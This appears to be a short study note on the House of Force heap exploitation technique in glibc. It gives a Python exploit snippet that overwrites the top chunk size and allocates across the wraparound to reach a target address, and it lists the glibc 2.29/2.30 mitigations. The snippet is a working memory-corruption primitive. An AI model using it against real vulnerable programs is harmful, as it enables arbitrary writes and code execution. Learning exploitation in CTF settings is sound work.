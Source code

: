 
## Implementation

Simple arbitrary write primitive that works if we can overwrite the top chunk size.
We overwrite it to the biggest value possible, then we malloc right before our target write address, and finally malloc our target write address to write data to it.

```python
def delta(start, end): # if we have to wraparound
    return (0xffffffffffffffff - start) + end
    
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap + 0x20, elf.sym.target - 0x20)
malloc(distance, b"Y")
malloc(24, "winwin")
```

## Mitigation

- Works until glibc version 2.29. After that, glibc ensures that the top chunk
size does not exceed its arena’s system_mem value.
- Wrap around to VA space only works until 2.30, glibc introduced a maximum allocation size check, which limits the size of the gap the House of Force can bridge.